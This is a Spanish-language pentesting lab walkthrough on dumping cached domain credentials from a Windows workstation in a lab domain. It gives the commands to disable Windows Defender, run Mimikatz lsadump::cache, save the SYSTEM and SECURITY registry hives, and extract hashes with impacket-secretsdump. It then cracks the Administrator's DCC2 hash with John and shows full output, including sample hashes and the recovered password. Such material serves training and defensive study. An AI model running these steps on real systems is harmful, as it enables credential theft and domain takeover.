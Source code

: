 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Volcado de credenciales de dominio cacheadas (mscash)

Imaginemos que tenemos un usuario local con privilegios de `administrador` como hemos visto anteriormente, estando en el equipo `Windows` podremos volcar las credenciales que fueron `cacheadas` en el sistema, estando con la sesion iniciada de forma local `.\santiago` en el `WS01` si no podemos obtener credenciales de las `logon sessions` por que no hay ninguna que nos interese y de la `SAM` no nos interesa por que solo son a nivel local y queremos a nivel de dominio, podremos realizar el volcado de credenciales `cacheadas` para ver si hay alguna registrada de algun usuario a nivel de dominio.

Utilizaremos `Mimikatz` en este caso, por lo que tendremos que descativar el antivirus ya que somos `administradores` locales, podremos hacerlo.

Una vez desactivado el `Windows Defender` ejeuctaremos `mimikatz` en un `PowerShell` como `Administrador`.

Para ello antes tendremos que ser `SYSTEM` por lo que haremos lo que hicimos anteriormente para suplantar su `token` de la siguiente forma:

```powershell
privilege::debug
token::elevate
```

Una vez ejecutado estos comandos, ahora si haremos lo siguiente:

```powershell
lsadump::cache
```

Info:

```
Domain : WS01
SysKey : c8125866b327df176940c9f2d6a48f5f

Local name : WS01 ( S-1-5-21-1345059704-770646112-4146140408 )
Domain name : CORP ( S-1-5-21-3352250647-938130414-2449934813 )
Domain FQDN : corp.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {61d93de2-3cd5-f57c-bb1a-61759861b280}
  [00] {61d93de2-3cd5-f57c-bb1a-61759861b280} 9ff21a12391e4572d34bcc2b9c41c89c572dcc27ac3d906f69db749f620da79d

* Iteration is set to default (10240)

[NL$1 - 20/01/2025 9:13:41]
RID       : 00000450 (1104)
User      : CORP\empleado1
MsCacheV2 : fda53d6158406f827388476bcbc97c37

[NL$2 - 19/01/2025 9:52:13]
RID       : 000001f4 (500)
User      : CORP\Administrator
MsCacheV2 : e1c8d7e26653ae629a74772a389cf7e6

[NL$3 - 12/01/2025 12:36:13]
RID       : 000004b9 (1209)
User      : CORP\annice.mable
MsCacheV2 : 77702054bffe13f7c5bbe919a228d985

[NL$4 - 12/01/2025 17:51:40]
RID       : 00000463 (1123)
User      : CORP\angelika.shelly
MsCacheV2 : 835512d4e4bb1d962c57d290eb99f670
```

Y con esto veremos que hemos obtenidos las credenciales de los usuarios que alguna vez en algun momento se han logeado en este equipo y podremos obtener ese `hash` que sera la contraseña del mismo, por ejemplo el del `Administrador` y vamos a `crackearlo` con `john` de la siguiente forma:

```shell
echo e1c8d7e26653ae629a74772a389cf7e6 > adminCache.hash
john --format=mscash2 adminCache.hash
```

Si realizamos esto, veremos que no nos lo consigue `crackear` por que le tenemos que dar un formato especifico al `hash`, por ello vamos a empezar por irnos a nuestro equipo de `Windows` y en la terminal de `PowerShell` vamos a volcar todas las ramas del registro y luego utilizar `impacket` en `kali`.

```powershell
cd .\Desktop
reg save hklm\system system.save
```

Y ahora volcaremos las credenciales `cacheadas` que no va a ser en la `SAM`, sera en la siguiente zona.

```powershell
reg save hklm\security security.save
```

Ahora estos 2 ficheros nos lo vamos a pasar al `kali` para poder extraer la informacion ahi.

```shell
impacket-secretsdump -system system.save -security security.save LOCAL
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-20 08:13:41)
CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-19 08:52:13)
CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
[*] NL$KM 
 0000   5C B5 3B 8C D5 28 A0 C3  6A F2 57 A3 08 B6 F7 D4   \.;..(..j.W.....
 0010   E4 7D 11 84 8F 2C 98 2B  2D DD 06 7D 30 53 B4 23   .}...,.+-..}0S.#
 0020   4B 8D C7 7E 92 96 5B 48  67 29 99 50 C1 E4 27 A6   K..~..[Hg).P..'.
 0030   37 2C 9D 99 E8 FD 57 11  CC 44 47 ED 30 6F 96 00   7,....W..DG.0o..
NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
[*] Cleaning up...
```

Ahora vemos que nos extrae los mismo usuarios que vimos anteriormente, pero en este caso nos lo pone el `hash` en el formato que necesitamos para poder `crackearlo` correctamente, por lo que haremos lo siguiente:

```shell
nano adminCache.hash

#Dentro del nano
$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6
```

Lo guardamos y ahora lo vamos a `crackear`:

```shell
john --format=mscash2 adminCache.hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (mscash2, MS Cache Hash 2 (DCC2) [PBKDF2-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Passw0rd         (?)     
1g 0:00:00:01 DONE 2/3 (2025-01-20 03:49) 0.7246g/s 4127p/s 4127c/s 4127C/s Stephani..Something
Use the "--show --format=mscash2" options to display all of the cracked passwords reliably
Session completed.
```

Vemos que lo hemos conseguido esta vez.
